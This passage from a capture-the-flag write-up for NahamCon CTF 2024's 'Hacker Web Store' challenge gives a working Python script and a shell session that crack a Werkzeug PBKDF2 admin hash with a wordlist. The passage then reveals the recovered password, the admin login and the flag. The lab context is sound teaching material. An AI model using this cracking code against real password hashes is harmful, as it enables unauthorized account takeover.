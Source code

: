 Let's do this!

```python
#!/usr/bin/env python3
from werkzeug.security import check_password_hash

def crackPassword(hash, wordlist):
    with open(wordlist, 'r') as file:
        for line in file:
            password = line.strip()
            print(f'[*] Trying password "{password}"', end='\r')

            isCorrect = check_password_hash(hash, password)
            if not isCorrect:
                continue

            print(f'\n[+] Password hash "{hash}" is cracked! Password is "{password}"')
            exit(0)

if __name__ == '__main__':
    adminHash = 'pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57'
    wordlistPath = './password_list.txt'

    crackPassword(adminHash, wordlistPath)
```

However, my script didn't implement multi-threading, so it's a little bit slow. 

**If you want to crack the hash faster with multi-threading, you can use [Werkzeug Cracker](https://github.com/AnataarXVI/Werkzeug-Cracker):**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|14:19:06(HKT)]
└> echo -n 'pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57' > hash.txt
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|14:19:29(HKT)]
└> python3 /opt/Werkzeug-Cracker/werkzeug_cracker.py -p ./hash.txt -w password_list.txt -t 50
Countdown |█████████████████████▊          | 1361/2008

Password found: ntadmin1234
```

Nice! We successfully cracked the admin account's password: `ntadmin1234`! Let's login to the admin page!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527142234.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527142240.png)

We got the flag!

- **Flag: `flag{87257f24fd71ea9ed8aa62837e768ec0}`**

## Conclusion

What we've learned:

1. SQL injection
